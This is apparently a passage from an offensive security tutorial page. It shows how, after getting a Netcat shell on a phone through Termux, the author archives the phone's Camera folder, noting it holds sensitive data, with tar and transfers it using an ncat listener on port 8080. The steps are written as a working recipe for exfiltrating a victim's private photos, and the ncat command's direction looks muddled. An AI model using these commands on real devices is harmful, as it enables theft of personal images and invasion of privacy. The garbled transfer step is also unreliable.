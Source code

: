 I've turned on **Netcat** From My <mark style="color:red;">**Termux**</mark> In My Phone I brought the shell using the methods we learned above , Now let's see the contents of this Camera folder

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption><p>It seems to hold a lot of sensitive data</p></figcaption></figure>



```bash
tar -cvzf cam.zip Camera
```

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

In Attacker Machine After Bring control Using <mark style="color:red;">**Termux**</mark> Open New Session Using Netcat

```
ncat -lnvp 8080 < cam.zip
```

<figure><img src="../../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

